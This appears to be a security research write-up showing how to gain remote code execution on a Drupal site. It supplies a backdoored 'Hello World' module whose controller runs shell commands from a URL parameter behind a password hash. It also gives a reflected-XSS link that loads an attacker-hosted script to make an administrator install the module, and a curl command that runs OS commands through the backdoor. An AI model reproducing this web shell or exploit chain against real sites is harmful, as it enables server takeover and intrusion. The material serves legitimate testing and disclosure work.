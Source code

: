 # [RCE] Install Module

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [create Drupal module containing PHP payload] backdoor source code

(`hello_world.info.yml`)

```
name: hello_world
type: module
description: 'Hello World custom module'
package: custom
version: 1.0
core_version_requirement: ^10
```

(`hello_world.routing.yml`)

```
hello_world.hellomsg:
  path: '/hello-world'
  defaults:
    _controller: 'Drupal\hello_world\Controller\HelloWorldController::message'
    _title: 'Hello World!!'
  requirements:
    _permission: 'access content'
```

(`src/Controller/HelloWorldController.php`)

```
<?php

namespace Drupal\hello_world\Controller;

class HelloWorldController {
  public function message() {
    if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
    return [
      '#markup' => 'Hello World message from custom module'
    ];
  }
}
```

2. [create Drupal module containing PHP payload] create Drupal module

```
tar cvf hello_world.tar.gz *
```

3. victim user (with administrative privileges) logs in

http://192.168.5.17/user/login

4. victim user clicks link

```
http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.13/installModuleDrupal.js></script>
```

6. execute OS command

```
curl -s "http://192.168.5.17/hello-world?pass=test&cmd=id" | head -n 1
```

7. [optional] uninstall module

*Drupal -> Extend -> [tab] Uninstall -> (filter by name) hello -> (mark checkbox) Hello World -> Uninstall -> Uninstall*

## Screenshots

![Image](screenshots/Drupal_-_install_module_-_1-1.png)
